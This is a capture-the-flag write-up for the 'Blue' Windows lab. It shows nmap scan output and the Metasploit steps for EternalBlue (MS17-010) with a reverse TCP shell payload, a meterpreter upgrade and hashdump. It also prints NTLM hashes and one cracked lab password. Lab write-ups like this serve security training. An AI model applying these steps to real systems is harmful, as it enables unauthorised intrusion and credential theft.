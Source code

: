 # Blue - itsnexn - 27/mar/2021

## Recon
### Scan(Nmap)
COMMAND:
```bash
nmap -sV -vv --script vuln 10.10.52.140 -oN scan/nmap
```

We start with nmap scan in `scan/nmap`:
```
# Nmap 7.91 scan initiated Sat Mar 27 23:36:59 2021 as: nmap -sV -vv --script vuln -oN scan/nmap 10.10.52.140
Increasing send delay for 10.10.52.140 from 0 to 5 due to 15 out of 49 dropped probes since last increase.
Nmap scan report for 10.10.52.140
Host is up, received conn-refused (0.19s latency).
Scanned at 2021-03-27 23:37:10 +0430 for 176s
Not shown: 991 closed ports
Reason: 991 conn-refused
PORT      STATE SERVICE            REASON  VERSION
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack
| rdp-vuln-ms12-020:
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown:
49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
49153/tcp open  unknown            syn-ack
49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack Microsoft Windows RPC
49160/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 27 23:40:06 2021 -- 1 IP address (1 host up) scanned in 187.12 seconds
```


### TASKS
How many ports are open with a port number under 1000? `Hint: Near the top of the nmap output: PORT STATE SERVICE`
```
¯\_(ツ)_/¯
```

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) `Hint: Revealed by the ShadowBrokers, exploits an issue within SMBv1`
```
¯\_(ツ)_/¯
```
## Gain Access

### MSFconsole
```
MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
```

At first we start to search our vulnerability `search ms17-010`
Then after find exploit we just use it!!!`use exploit/windows/smb/ms17_010_eternalblue`
Then we set our `RHOSTS` like this `set RHOSTS 10.10.52.140`
its better to use payload so we set out payload like so:`set payload windows/x64/shell/reverse_tcp`

Yes we get our sehll or its better to say RCE ig ...




### TASKS
Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)`Hint: search ms??`
```
¯\_(ツ)_/¯
```

Show options and set the one required value. What is the name of this value? (All caps for submission)`Hint: Command: show options`
```
¯\_(ツ)_/¯
```

## Escalate

after get RCE we going to use `shell_to_meterpreter` module to find users and password hash's so first we hit CTRL+Z to send RCE to background
than we just `use post/multi/manage/shell_to_meterpreter` and then we use `session -l` to list our sessions then we `set SESSION 1` and run exploit ...
we use `ps` to show processes and migrate to them ...
after some attempts we find our psID to migrate to `svchost.exe | 708`


### TASKS
What is the name of the post module we will use?`Hint: Google this: shell_to_meterpreter`
```
¯\_(ツ)_/¯
```

Select this (use MODULE_PATH). Show options, what option are we required to change?
```
¯\_(ツ)_/¯
```

## Cracking

after migrate to psID we found we use our `hashdump` command to see users hash's:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
then we use `https://crackstation.net/` to crack the password hash...

### TASKS
What is the name of the non-default user?
```
jon
```

 Copy this password hash to a file and research how to crack it. What is the cracked password?
```
alqfna22
```

## Find flags!

we found our first flag in `C:\flag1.txt`...
and second one in `C:\windows\system32\config\flag2.txt`
and for third flag after some time i can find flag on C:\Users\Jon\Documents\flag3.txt

### TASKS
Flag1? This flag can be found at the system root.`Hint: Can you C it?`
```
¯\_(ツ)_/¯
```

Flag2? This flag can be found at the location where passwords are stored within Windows.`Hint: I wish I wrote down where I kept my password. Luckily it's still stored here on Windows.`
```
¯\_(ツ)_/¯
```

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.`Hint: You'll need to have elevated privileges to access this flag.
`
```
¯\_(ツ)_/¯
```
